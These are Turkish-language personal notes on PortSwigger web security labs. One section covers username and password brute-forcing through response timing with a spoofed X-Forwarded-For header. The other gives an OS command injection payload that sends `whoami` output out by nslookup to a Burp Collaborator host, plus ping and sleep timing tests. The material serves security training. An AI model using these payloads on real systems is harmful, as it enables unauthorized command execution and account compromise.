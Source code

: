 # PORT SWIGGER NOTLARI


### LAB Notlarim:

__________________________________________
####  Username enumeration via response timing  [ Response timing ve response received ]

Burada oncelikle ```X-Forwarded-For:``` header i ekleyerek en alta ```0 - 600``` e kadar bir brute force ayarliyorum
ardindan parolayi bilerek yanlis yapiyorum ```testtttttttttttttttttt``` gibi bir parola koyuyorum.
username kismina ise wordlistimi ekleyerek pitchfork ile atagi baslatiyorum. receive ve response timing ile bakarak hani ilk bos bir sorgu gonderiyor
o sorgu senin kendi olusturdugun gercek bir hesabin dogru sifresi ve username i olsun. ondan referans almistim ben.

2054 olarak bos bir istek attiginda yani gercek giris yaptiginda bu sayi ile referansimizi aliyoruz.
username salidirisi bittigi zaman baktigimiz zaman bu 2 parametreye receive ve response timing e . 
Cok ama cok yakin bir deger goruoruz. username i bulmus olduk.
simdi ayni sekilde bu sefer parolaya ayni saldiriyi gerceklestiriyoruz.
saldiri bittiginde gordugumuz deger gercek degerdir.

_______________________________________________________________

### OS Command Injection 
```Javascript
csrf=rNED41GCvbP8vgtXfK1rs4BGsTvbe11F&name=testerererere&email=tipybu%40cyclelove.cc||nslookup+`whoami`.oyqhkljtvxhzosoxlu4m9qtg87ey2n.oastify.com+#||&subject=testre&message=testssssss
```
Burada tirnak isareti farkli bunu unutma.
eng klavyede tab in usutndeki olacak whoami
bunun disinda `||ping+-c+10+127.0.0.1+||` bu 10 saniye falan bekletiyor guzel test. ama son lab da bekletmiyordu mesela. sadece su yukaridaki nslookup ve burp collabrator yaptigim kisimda tek bu yontem ise yaradi....
Ekstra olarak ping yerine `sleep 10` komutum da ise yaradi/
